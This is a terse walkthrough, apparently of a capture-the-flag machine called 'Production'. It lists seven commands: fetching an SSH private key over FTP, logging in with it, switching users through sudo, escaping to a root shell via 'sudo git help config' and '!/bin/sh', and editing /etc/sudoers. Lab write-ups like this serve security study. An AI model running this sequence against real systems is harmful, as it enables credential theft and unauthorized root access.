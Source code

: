 # Production
1. `ftp $IP`
2. `get id_rsa` and get `get authorized_keys`
3. `chmod 600 id_rsa`
4. `ssh -l ashu -i id_rsa $IP`
5. `sudo /bin/su skidy`
6. `sudo git help config` and `!/bin/sh`
7. `nano /etc/sudoers` edit



